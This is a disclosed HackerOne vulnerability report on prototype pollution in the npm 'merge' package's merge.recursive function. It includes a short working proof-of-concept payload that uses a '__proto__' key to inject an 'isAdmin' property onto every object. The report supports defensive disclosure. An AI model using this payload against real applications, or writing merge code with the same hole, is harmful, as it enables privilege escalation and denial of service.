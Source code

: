 # Prototype pollution attack (merge.recursive)

## Report Details
- **Report ID**: 381194
- **URL**: https://hackerone.com/reports/381194
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-07-13T10:26:55.413Z
- **Disclosed**: 2018-09-28T10:13:25.154Z

## Reporter
- **Username**: asgerf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report prototype pollution in merge.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** merge
**version:** 1.2.0
**npm page:** `https://www.npmjs.com/package/merge`

## Module Description

Merge multiple objects into one, optionally creating a new cloned object. Similar to the jQuery.extend but more flexible. Works in Node.js and the browser.

## Module Stats

1,822,662 downloads in the last week

# Vulnerability

## Vulnerability Description

This is a variant of this vulnerability:
https://hackerone.com/reports/310443

The `merge.recursive` function can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:

Craft an object of form `{__proto__: {...}}` and send it to `merge.recursive`.

```javascript
let merge = require('merge');
let payload = JSON.parse('{"__proto__": {"isAdmin": true}}');
merge.recursive({}, payload);
console.log({}.isAdmin); // true
```

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

Denial of service, possibly more depending on the application.
See https://hackerone.com/reports/310443

## Attachments
No attachments
